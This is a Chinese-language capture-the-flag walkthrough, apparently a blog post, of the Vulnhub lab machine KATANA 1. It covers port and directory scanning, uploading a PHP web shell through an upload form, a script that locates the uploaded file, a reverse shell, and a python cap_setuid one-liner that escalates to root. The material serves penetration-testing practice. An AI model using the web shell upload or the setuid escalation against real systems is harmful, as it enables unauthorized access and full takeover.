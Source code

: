 ```yaml
---
layer: article
title: Vulnhub 482 KATANA 1
tags: pentest vulnhub Walkthrough
---
```


考点：文件上传,cap_setuid+ep

靶机链接：<https://www.vulnhub.com/entry/katana-1,482/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| KATANA: 1  | 10.0.2.21 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.21  
$ sudo nmap -v -p- $rip
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Katana X
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Issuer: commonName=katana/organizationName=webadmin/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-11T13:57:36
| Not valid after:  2022-05-11T13:57:36
| MD5:   0443 4a65 9ba1 0b75 ea8d d1b8 c855 e495
|_SHA-1: f89e f85e e6b3 6b10 4ebc 5354 80a0 0ae3 7e10 50cc
|_http-server-header: LiteSpeed
|_http-title: Katana X
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-favicon: Unknown favicon MD5: AF89068FFB9883F7D99BB25F75687AC7
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
```

### WEB测试

#### 端口80

```bash
$ dirsearch -u http://10.0.2.21/    
                                      
[01:58:10] 200 -  655B  - /index.html                                       
[01:58:17] 403 -  274B  - /server-status                                    
[01:58:17] 403 -  274B  - /server-status/ 
```



#### 端口7080

dirsearch 无收获

#### 端口8088

```bash
$ dirsearch -u http://10.0.2.21:8088   
[01:55:13] Starting: 
[01:55:25] 301 -    1KB - /cgi-bin  ->  http://10.0.2.21:8088/cgi-bin/      
[01:55:27] 301 -    1KB - /css  ->  http://10.0.2.21:8088/css/              
[01:55:27] 301 -    1KB - /docs  ->  http://10.0.2.21:8088/docs/            
[01:55:27] 200 -    5KB - /docs/                                            
[01:55:30] 301 -    1KB - /img  ->  http://10.0.2.21:8088/img/              
[01:55:30] 200 -  655B  - /index.html                                       
[01:55:36] 200 -   50KB - /phpinfo.php                                      
[01:55:38] 401 -    1KB - /protected/runtime/                               
[01:55:38] 401 -    1KB - /protected/data/                                  
[01:55:43] 200 -    6KB - /upload.html                                      
[01:55:43] 200 -    2KB - /upload.php
```

![1](https://static.iihack.com/vulnhub/482/1.jpg)

上传php一句话后，文件名改为`katana_2.php`

#### 端口8715

访问后有http认证，弱口令admin admin访问后无收获


### 漏洞发现

根据8088端口上传的文件名称`katana_2.php` 编写小脚本 

```bash
import os

ip = '10.0.2.21'
ports = ('80','7080','8088','8715')
file = 'katana_2.php'
for port in ports:
    url ='http://'+ ip +':'+port +'/'+ file
    print(url)
    os.system('curl -I %s ' % url)
```

![2](https://static.iihack.com/vulnhub/482/2.jpg)



## 获得权限

访问http://10.0.2.21:8715/katana_2.php返回200，使用antsword连接成功

![3](https://static.iihack.com/vulnhub/482/3.jpg)



上传r444.php 访问后本地获得反弹shell

![4](https://static.iihack.com/vulnhub/482/4.jpg)


## 提权

运行linpeas.sh发现

![5](https://static.iihack.com/vulnhub/482/5.jpg)



```bash
www-data@katana:/tmp$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
# whoami
```

获得root权限

![6](https://static.iihack.com/vulnhub/482/6.jpg)
